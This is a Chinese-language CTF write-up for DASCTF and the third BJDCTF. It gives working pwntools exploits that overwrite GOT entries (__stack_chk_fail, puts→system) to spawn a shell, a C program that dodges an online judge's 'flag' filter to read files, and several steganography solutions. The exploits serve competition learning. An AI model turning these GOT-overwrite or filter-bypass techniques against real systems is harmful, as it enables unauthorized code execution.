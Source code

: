 ```yaml
---
title: DASCTF&第三届BJDCTF write up
date: 2020-05-24 22:21:16
tags: CTF
---
```

不愧是BJD，不愧是TaQini，我不配  
![](1.jpg)
# Pwn  
## TaQini OJ 0  
是个C语言编译器，没有复现环境我就直接写一下了  
首先提示需要打印出"Helloc TaQini"字符串，然后我就用printf打印出来了，然后他回显一个当前目录的tree，并且告诉了绝对路径  
然后尝试system("/bin/sh"),execve("/bin/sh",0,0)发现都被过滤了  
遂尝试orw，发现不能出现flag字符串，不然直接退出  
那就有点蛋疼了  
那我们不在输入C语言的时候用flag字符串，制造一个用户输入，在用户输入的时候输入flag路径  
就可以orw了  
exp  
```C++  
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
int main()
{
char a[32]={0};
char b[60]={0};

gets(a);
int fd=open(a,O_RDONLY);

read(fd,b,0x30);
write(1,b,0x30);

return 0;
}@
```  
随性而写，缩进？不存在的  
还有一个非预期是这样，两个OJ题都可以秒了  
![](feiyuqi.png)
艹？？？  
我？？？  
![](sbch.jpg)
## Memory Monster I  
分析一下，  
main里有个任意地址写  
开了canary  
![](2.png)
还有后门  
![](3.png)
直接把__stack_chk_fail@got改成后门函数就gg了  
exp：  
```python  
#!/usr/bin/env python
#coding=utf-8
from pwn import*
import sys
#context.log_level = 'debug'
context.update(arch='amd64',os='linux',timeout=1) 
context.terminal = ['terminator','-x','sh','-c']
binary = './baby_tcache' 
local = 1
if local == 1:
    p=process(binary)
else:
    p=remote("",)
elf=ELF(binary)
libc=elf.libc
def exp():
    p.recvuntil("addr:")
    p.send(p64(0x404028) + "\x00"*0x28)
    p.recvuntil("data:")
    p.send(p64(0x40124A))
    p.interactive()
exp()
```  
## Memory Monster II  
这题所有符号都没了，我吐了  
自己找main呗  
找了半天  
然后把里面的东西重命名了  
基本上和I是一样的  
![](4.png)
但是很难找got表了  
我找到got区，一个个试  
![](5.png)
然后发现__stack_chk_fail@got是0x4bb058，我们把这个改成main，（这里要注意，这个main要跳过setvbuf，不然程序会挂掉）就可以无限循环任意地址写了  
然后把puts的参数改成/bin/sh  
然后把puts@got改成system  
然后就gg  
exp：  
```python  
#!/usr/bin/env python
#coding=utf-8
from pwn import*
from LibcSearcher import *
import sys
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
binary = './Memory_Monster_II' 
local = 1
if local == 1:
    p=process(binary)
else:
    p=remote("",)
elf=ELF(binary)
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')

def exp():
    p.recvuntil("addr:")
    payload = p64(0x4bb058) + "\x00"*0x29
    p.send(payload)
    p.recvuntil("data:")
    p.send(p64(0x401c1d))
    p.recvuntil("addr:")
    payload = p64(0x4BB100) + "\x00"*0x29
    p.send(payload)
    p.recvuntil("data:")
    p.send("/bin/sh\x00")
    p.recvuntil("addr:")
    payload = p64(0x4bb0c0) + "\x00"*0x29
    p.send(payload)
    p.recvuntil("data:")
    p.send(p64(0x401d00))
    
    p.interactive()
exp()
```  
# Misc  
后边的pwn都不会了，被迫做misc  
问卷就简单说一下  
查看页面源代码，里面有所有问题的答案，直接填上，就可以出flag  
## /bin/cat 2  
开局一张图  
![](cat.gif)
下载下来，用stegsolve变变色  
然后长这样  
![](6.png)
然后拉伸缩放一下，扫码，出来个这个  
```  
m1ao~miao~mi@o~Mia0~m!aO~m1a0~~~
```  
md5加密一下就是flag  
## babyweb  
开局一个抖肩舞webp  
没什么用，我还以为里面有隐写  
有一个压缩包，下载下来发现要密码  
然后F12看一下，里面有个零宽字符隐写  
![](7.png)
怎么解密呢？  
google一下  
![](8.png)
然后就得到了压缩包的密码  
然后打开长这样    
![](9.png)
？？？？  
winhex打开，发现png文件头在末尾了  
![](10.png)
用python倒序一下  
```python  
f = open("f14g.png", "rb")
s = f.read()
f.close()
f = open("2.png", "wb")
f.write(s[::-1])
f.close()
```  
出来这么个玩意儿  
![](flag.png)
我？？？  
然后google识图，发现是四种字符  
alphabet minimoys  
标准银河字母  
跳舞小人  
宝可梦  
这里特别提醒！众所周知，百度是个垃圾玩意儿，识图识了个寂寞，啥也没有  
然后去找到里面对对应的字符，结合hint，把Q改成W  
然后md5加密一波  
gg  
</br>
最后一定要膜拜一波大师傅  
我愈发感觉自己不配打CTF了  
![](dashifu.png)